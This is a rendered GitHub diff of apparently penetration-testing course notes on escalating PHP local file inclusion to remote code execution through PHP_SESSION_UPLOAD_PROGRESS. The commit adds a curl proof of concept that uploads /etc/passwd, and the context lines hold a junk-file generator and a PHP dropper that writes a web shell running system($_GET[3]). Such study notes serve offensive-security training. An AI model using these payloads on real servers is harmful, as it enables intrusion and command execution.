

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -191,6 +191,8 @@ LFI to RCE
 
 PHP_SESSION_UPLOAD_PROGRESS
 ---
+    > POC
+    curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah' -F 'file=@/etc/passwd'
     創建一個塞滿垃圾的檔案和要塞進去tmp的shell
     python -c 'print "A" * 2048 * 1024' >> junk.txt
     evildropper:<?php file_put_contents('/tmp/shell.php','<?php system($_GET[3])?>'); ?>
```
